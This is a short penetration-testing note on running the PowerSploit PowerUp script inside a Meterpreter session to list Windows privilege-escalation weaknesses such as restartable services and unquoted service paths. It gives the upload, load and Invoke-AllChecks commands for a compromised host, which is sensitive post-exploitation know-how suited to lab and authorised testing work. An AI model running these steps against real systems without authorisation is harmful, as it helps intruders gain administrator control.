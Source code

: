 # PowerUP
A script to help identify common privesc vulnerabilities.
Source: You can find this script on git hub PowerSploit. 

## Meterpreter
Once the script is downloaded, upload it to your meterpreter session:
```sh
meterpreter > upload PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

Look for entries that have `CanRestart: True` and the "Unquoted Service Paths" for some low hanging fruit.


